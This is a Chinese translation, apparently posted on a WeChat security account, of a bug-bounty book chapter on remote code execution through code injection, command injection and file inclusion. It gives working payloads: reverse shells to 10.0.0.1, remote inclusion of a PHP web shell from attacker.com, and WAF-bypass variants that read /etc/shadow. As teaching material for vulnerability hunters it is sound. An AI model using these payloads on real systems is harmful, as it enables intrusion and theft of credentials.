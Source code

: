 #  Remote Code Execution RCE漏洞详解   
原创 uuwan  SecurityBug   2024-07-07 20:03  
  
本文由uuwan翻译《Bug Bounty Bootcamp The Guide to Finding and Reporting Web Vulnerabilities》 by Vickie Li，如果侵权还请及时联系。  
  
      请点击文末  
#Bug Bounty Bootcamp标签查看合集或关注公众号点击底部【漏洞书籍】子菜单，如果对您有帮助还请点赞、在看、评论、转发、关注、打赏哦，您的互动就是我更新最大的动力  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OLGsebxiaIXR5enficTjsBNom1314pib12wcMEDicB5UYmoO6icFU0HKgJpoE9IwWrcclDY4odG2nXJD0g5M0Zc04xw/640?wx_fmt=png&from=appmsg "")  
当攻击者由于存在漏洞或配置错误而可以在目标机器上执行任意代码时，就会发生远程代码执行（RCE）。rce是极其危险的，因为攻击者经常在根本上危及web应用程序，甚至是底层的web服务器。没有一种单一的技术来实现RCE。在前面的章节中，我提到攻击者可以通过SQL注入、不安全的反序列化和模板注入来实现它。在本章中，我们将讨论另外两种可能允许您在目标系统上执行代码的策略：代码注入和文件包含漏洞。在我们继续讨论之前，请记住，RCE漏洞通常需要对编程、Linux命令和web应用程序开发有更深入的理解。一旦你掌握了找到更简单的漏洞，你就可以开始努力寻找rce。机制有时，攻击者可以通过直接向执行的代码中注入恶意代码来实现RCE。这些都是代码注入漏洞。攻击者还可以实现RCE，通过将恶意代码放入被受害应用程序执行或包含的文件中，这些漏洞被称为文件包含。代码注入当应用程序允许用户输入与可执行代码混淆时，就会发生代码注入漏洞。有时，当应用程序将未经过滤的数据传递到已执行的代码中时，就会无意中发生这种情况。有时，这将作为一个有意的特性内置到应用程序中。例如，假设你是一个试图构建在线计算器的开发者。Python的eval()函数接受一个字符串并执行Python代码：eval("1+1")将返回2，eval("1*3")将返回3。由于eval()在评估各种用户提交的表达式时具有灵活性，因此eval()是实现计算器的一种方便的方法。因此，假设您编写了以下Python代码来执行该功能。这个程序将接受一个用户输入字符串，通过eval()，并返回结果：def calculate(input):   return eval("{}".format(input)) result = calculate(user_input.calc)print("The result is {}.".format(result))用户可以通过使用以下GET请求向计算器发送操作。当按预期操作时，以下用户输入将输出字符串:The result is 3GET /calculator?calc=1+2Host: example.com但是，由于在这种情况下，eval()接受用户提供的字符串输入并将其作为Python代码执行，攻击者可以为应用程序提供一些更恶意的东西。还记得Python的os.system(),这是第16章命令，它将输入的字符串作为系统命令执行。假设一个攻击者向calculate()函数提交了以下HTTP请求：GET /calculator?calc="__import__('os').system('ls')"Host: example.com因此，程序将执行eval("__import__('os').system('ls')")，并返回系统命令ls的结果。因为eval()可以用于在系统上执行任意代码，所以如果您传递未经消毒(可理解为输入数据校验脱敏)的用户输入到eval()函数。您已经为您的应用程序引入了一个代码注入漏洞。攻击者还可以做一些更具破坏性的事情，如下所述。此输入将导致应用程序调用 os.system()，并反弹shell到IP10.0.0.1的端口8080上：GET /calculator?calc="__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')"Host: example.com反弹shell使目标服务器与攻击者的机器进行通信，并建立一个远程可访问的连接，允许攻击者执行目标服务器的系统命令。当用户输入直接连接到系统命令时，会发生另一种代码注入变体。这也被称为命令注入漏洞。除了发生在web应用程序中之外，命令注入在嵌入式web应用程序中难以置信的盛行，因为它们依赖于shell命令和使用执行shell命令的包装器的框架。假设example.com还有一个功能，允许你下载一个远程文件并在网站上查看它。为了实现此功能，应用程序使用系统命令wget来下载远程文件：import osdef download(url):    os.system("wget -O- {}".format(url))    display(download(user_input.url))wget命令是一个工具，它下载给定URL的网页，-O-选项使wget下载文件并在标准输出中显示它。总之，这个程序从用户输入中获取一个URL，并将其传递到使用os.system()执行的wget命令中。例如，如果您提交以下请求，应用程序将下载谷歌主页的源代码并显示给您：GET /download?url=google.comHost: example.com由于用户输入被直接传递到系统命令中，攻击者甚至可以不使用Python函数就注入系统命令。这是因为，在Linux命令行中，分号(;)字符分隔了单个命令，因此攻击者可以通过在分号之后提交任何他们想要的命令，在wget命令之后执行任意命令。例如，下面的输入将导致应用程序反弹shell到IP 10.0.0.1 的8080端口：GET /download?url="google.com;bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"Host: example.com文件包含远程文件包含大多数编程语言都有允许开发人员包含外部文件的功能。当开发人员希望将图像等外部资产文件包含到其应用程序中、使用外部代码库或重用为不同目的编写的代码时，这一点非常有用。攻击者实现RCE的另一种方法是让目标服务器包含一个有恶意代码的文件。此文件包含漏洞有两个子类型：远程文件包含和本地文件包含。当应用程序允许包含来自远程服务器的任意文件时，就会出现远程文件包含漏洞。当应用程序在其页面上动态地包含外部文件和脚本，并使用用户输入来确定所包含的文件的位置时，就会发生这种情况。为了了解这是如何工作的，让我们来看看一个有漏洞的应用程序。下面的PHP程序对用户提交的HTTP GET参数page的值调用PHP include函数。然后，include函数将包含并计算指定的文件：<?php // Some PHP code $file = $_GET["page"]; include $file; // Some PHP code?>此代码允许用户通过更改page参数来访问网站的各个页面。例如，要查看站点的index页面和about页面，用户可以分别访问 http://example.com/?page=index.php和http://example.com/?page=about.php.但是，如果应用程序不限制用户使用page参数包含的文件，攻击者可以包含托管在其服务器上的恶意PHP文件，并让目标服务器执行该文件。在这种情况下，让我们托管一个名为 malicious.php 的PHP页面，该页面将作为系统命令执行URL GET参数cmd中包含的字符串。PHP中的system()命令类似于Python中的 os.system()。它们都执行一个系统命令并显示输出。以下是我们的恶意PHP文件的内容：<?PHP system($_GET["cmd"]);?>如果攻击者在example.com上加载此页面，该站点将计算位于攻击者服务器上的malicious.php中包含的代码。然后，恶意脚本将使目标服务器执行系统命令ls：http://example.com/?page=http://attacker.com/malicious.php?cmd=ls请注意，同样的特性也很容易受到SSRF和XSS的攻击。此端点可能受到SSRF的攻击，因为该页面可能加载本地系统和网络的信息。攻击者还可以使页面加载一个恶意的JavaScript文件，并欺骗用户点击它来执行一个反射型XSS攻击。本地文件包含另一方面，本地文件包含发生当应用程序以不安全的方式包含文件，但不允许包含远程文件时。在这种情况下，攻击者需要首先将一个恶意文件上传到本地机器，然后通过使用本地文件包含来执行它。让我们稍微修改一下我们前面的例子。下面的PHP文件首先获取HTTP GET参数page，然后在将page与包含用户可以加载的文件的目录名连接起来后，调用PHP include函数：<?php // Some PHP code $file = $_GET["page"]; include "lang/".$file; // Some PHP code?>该站点的lang目录包含多种语言的home页。例如，用户可以分别访问 http://example.com/?page=de-index.php and http://example.com/?page=en-index.php 来访问德语和英语的主页。这些url将导致网站加载页面/var/www/html/lang/de-index.php 和 /var/www/html/lang/en-index.php，以显示德语和英语的主页。在这种情况下，如果应用程序没有对page参数的可能值设置任何限制，攻击者可以利用上传特性来加载他们自己的页面。假设example.com允许用户上传任何类型的文件，然后将它们存储在/var/www/html/uploads/USERNAME目录中。攻击者可以将恶意的PHP文件上传到uploads文件夹中。然后他们可以使用序列../逃出lang目录，并在目标服务器上执行恶意上传的文件：http://example.com/?page=../uploads/USERNAME/malicious.php如果攻击者加载此URL，该网站将包含指向/var/www/html/lang/../uploads/USERNAME/malicious.php的文件/var/www/html/uploads/USERNAME/malicious.php寻找rce就像我们迄今为止的许多攻击一样，rce有两种类型：经典的和盲目的。经典的RCEs是指您可以在随后的HTTP响应中读取代码执行的结果，然而当已执行恶意代码但执行的返回值没有HTTP响应中出现就叫做盲RCEs。尽管攻击者无法看到他们的执行结果，但盲目的RCEs与经典的RCEs一样危险，因为它们可以使攻击者能够反弹shell或将数据渗透到远程服务器。寻找这两种类型的RCE也是一个类似的过程，但您为验证这些漏洞所需要使用的命令或代码段将会有所不同。以下是您在攻击Linux服务器时可以使用的一些命令。在寻找一个经典的RCE漏洞时，您所需要做的就是执行一个像whoami这样的命令，它会输出当前用户的用户名。如果响应包含web服务器的用户名，如www-data，则您已确认了RCE，因为该命令已成功运行。另一方面，要验证盲RCE，您需要执行一个影响系统行为的命令，比如 sleep 5，它会将响应延迟5秒。然后，如果在收到响应之前遇到5秒的延迟，您可以确认漏洞。与我们用来利用其他漏洞的盲技术类似，您还可以设置一个监听器，并尝试从目标服务器触发带外交互。步骤1：收集有关目标的信息发现任何漏洞的第一步都是收集目标的信息。当寻找RCEs时，这一步特别重要，因为获得RCE的方法极其依赖于该目标的构建方式。您应该找到当前目标的web服务器、编程语言和使用的其他技术的信息。使用第5章中概述的侦察步骤来执行这一点。步骤2：确定可疑的用户输入位置与发现许多其他漏洞一样，找到任何RCE的下一步是识别用户可以提交输入到应用程序的位置。在搜寻代码注入时，注意每个直接的用户输入位置，包括URL参数、HTTP报头、body体参数（正文参数）和文件上传。有时应用程序解析用户提供的文件，并将其内容不安全地连接到执行的代码中，因此最终传递到命令中的任何输入都是您应该注意的。要找到潜在的文件包含漏洞，请检查用于确定文件名或文件路径的输入位置，以及应用程序中的任何文件上传功能。步骤3：提交测试有效载荷接下来你应该做的事情是向应用程序提交测试payload。对于代码注入漏洞，尝试被服务器解释为代码的payload，看看它们是否被执行。例如，下面是一个你可以使用的有效载荷的列表：Python payloads此命令被设计用于打印字符串 RCE test! 如果Python执行成功：print("RCE test!")此命令将打印系统命令ls的结果："__import__('os').system('ls')"此命令将响应延迟10秒："__import__('os').system('sleep 10')"PHP payloads此命令执行成功时，打印本地PHP配置信息：phpinfo();此命令将打印系统命令ls的结果：<?php system("ls");?>此命令将响应延迟10秒：<?php system("sleep 10");?>Unix payloads此命令将打印系统命令ls的结果：;ls;这些命令将响应延迟10秒：| sleep 10;& sleep 10;` sleep 10;`$(sleep 10)对于文件包含漏洞，您应该尝试使端点包含您可以控制的远程文件或本地文件。例如，对于远程文件包含，您可以尝试几种形式的URL，指向您托管在场外的恶意文件：http://example.com/?page=http://attacker.com/malicious.phphttp://example.com/?page=http:attacker.com/malicious.php对于本地文件包含漏洞，请尝试指向您控制的本地文件的不同url：http://example.com/?page=../uploads/malicious.phphttp://example.com/?page=..%2fuploads%2fmalicious.php您可以使用在第13章中学习到的bypass技术来构造相同URL的不同形式。步骤4：确认该漏洞最后，通过执行诸如whoami、ls和sleep 5等无害的命令来确认该漏洞。升级攻击在升级RCE漏洞时要格外小心。大多数公司都希望你不要试图升级漏洞，因为他们不希望有人窥探包含机密数据的系统。在一个典型的渗透测试中，黑客通常会试图找出当前用户的权限，并在他们获得RCE后尝试提权攻击。但在赏金漏洞背景下，这是不合适的。您可能会意外地读取有关客户的敏感信息，或通过修改关键文件对系统造成损坏。重要的是，你要仔细阅读赏金程序的规则，这样你就不会越界了。对于经典的rce，创建一个概念证明，执行whoami或ls。您还可以通过读取一个常见的系统文件，如/etc/passwd，来证明您已经找到了一个RCE。您可以使用cat命令来读取系统文件：cat /etc/passwd在Linux系统上，/etc/passwd文件包含系统的帐户及其用户id、组id、主目录和默认shell的列表。这个文件通常不需要特殊的权限就可读，所以先访问是很好的。最后，您可以在系统上创建一个具有不同文件名的文件，例如rce_by_YOUR_NAME.txt，因此很明显，这个文件是您的POC的一部分。您可以使用touch命令在当前目录中创建一个具有指定名称的文件：touch rce_by_YOUR_NAME.txt对于盲RCE，创建一个执行sleep命令的POC。您还可以在目标机器上创建一个反向shell，它连接回您的系统，以获得更有影响的POC。然而，这通常是违反程序规则的，所以一定要事先检查一下程序。在为RCE漏洞创建POCs时，很容易越过赏金策略的边界，并对目标站点造成无意的损害。创建POC时，确保有效负载执行无害的命令，并且您的报告描述了实现RCE所需的步骤。通常，读取一个非敏感的文件或在一个随机路径下创建一个文件就足以证明您的发现。绕过RCE保护许多应用程序已经意识到RCE的危险，并使用输入验证或防火墙来阻止潜在的恶意请求。但是编程语言通常非常灵活，这使我们能够在输入验证规则的范围内使我们的攻击能够工作！下面是一些基本的输入验证bypass，您可以在应用程序阻止您的有效负载时进行尝试。对于Unix系统命令，您可以插入引号和双引号，而不更改命令的行为。如果系统正在过滤某些字符串，也可以使用通配符替换任意字符。最后，任何结果为空的命令都可以插入到字符串中，而不改变结果。例如，以下命令将全部打印/etc/shadow的内容：cat /etc/shadowcat "/e"tc'/shadow'cat /etc/sh*dowcat /etc/sha``dowcat /etc/sha$()dowcat /etc/sha${}dow您还可以改变在PHP中编写相同命令的方式。例如，PHP允许像字符串一样连接函数名。您甚至可以用十六进制编码函数名，或者在命令中插入PHP注释，而不改变其结果：/*由这些包围的文本是PHP中的注释。*/例如，假设您要在PHP中执行此系统命令：system('cat /etc/shadow');以下示例通过连接字符串sys和tem来执行系统命令：('sys'.'tem')('cat /etc/shadow');下面的示例也做了同样的事情，但在命令的中间插入了一个空白注释：system/**/('ls');这一行代码是system命令的十六进制编码版本：'\x73\x79\x73\x74\x65\x6d'('ls');在Python中也存在类似的行为。以下都是在Python语法中等价的：__import__('os').system('cat /etc/shadow')__import__('o'+'s').system('cat /etc/shadow')__import__('\x6f\x73').system('cat /etc/shadow')此外，一些服务器会将具有相同名称的多个参数的值连接成一个值。在这种情况下，您可以分割恶意代码，以绕过输入验证。例如，如果防火墙阻止了包含字符串system的请求，那么您可以将RCE有效负载分成块，例如：GET /calculator?calc="__import__('os').sy"&calc="stem('ls')"Host: example.com参数将毫无问题地通过防火墙，因为请求在技术上不包含字符串system。但是当服务器处理请求时，参数值将被连接到一个字符串，形成我们的RCE有效负载："__import__('os').system('ls')"。这只是你可以尝试的过滤器bypass的一小部分，还有更多存在。例如，您可以进行十六进制编码、url编码、双重url编码，并更改有效负载的大小写字母。您还可以尝试在有效负载中插入特殊字符，如空字节、换行符字符，可能会让过滤器以为输入的字符串已经结束，进而不检验后续的恶意字符。转义字符（\）以及其他特殊非ASCII字符。然后，观察哪些有效载荷被阻止了，哪些成功了，然后手工利用payload，这将绕过过滤器来达成你想要的结果。如果您对这个主题感兴趣，请在线搜索RCE filter bypass或WAF bypass以了解更多信息。此外，本节中提到的原则也可以用于绕过对其他漏洞的输入验证，如SQL注入和XSS。  
  
